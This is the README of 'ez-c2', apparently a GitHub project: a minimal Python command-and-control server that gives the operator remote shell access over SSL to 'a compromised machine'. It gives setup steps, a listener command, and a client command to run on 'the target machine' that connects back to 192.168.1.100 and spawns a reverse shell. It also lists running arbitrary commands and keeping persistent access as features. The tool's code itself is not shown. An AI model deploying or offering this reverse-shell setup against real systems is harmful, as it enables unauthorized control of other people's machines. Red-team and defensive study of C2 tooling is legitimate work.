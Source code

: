 init!

# Intro

ez-c2 is a lightweight and minimal Command & Control (C2) server written in Python 3. It enables remote shell access via SSL, making it easy to manage a compromised machine from the command line interface (CLI).




# Getting started

Clone the repository and set up your Python virtual environment: 

```bash
git clone https://github.com/auteqia/ez-c2.git
cd ez-c2/
python3 -m venv venv
source ./venv/bin/activate
```

Install any dependencies if required :
```bash
pip install -r requirements.txt
```


# Usage

It can be used server-side or client-side. 


## Server-side | Listening

Start the C2 server and specify the port to listen on: 
```bash
Usage: python3 script.py -listen <port>
```

Example: 
```bash
python3 script.py -listen 4443
```

## Client-side | Connecting

Run the client script on the target machine to initiate a reverse shell: 
```bash
python3 -connect <server_ip> <server_port>
```
Example: 
```bash
python3 script.py -connect 192.168.1.100 4443
```
The client will establish an SSL connection to the server and spawn a shell. 


# What can you do with ez-c2 ?

Once connected, ez-c2 allows the operator to: 

- Execute arbitrary system commands on the client-side machine
- Receive output of commands via a secure SSL tunnel
- Maintain persistent shell access (implementation dependent)
    


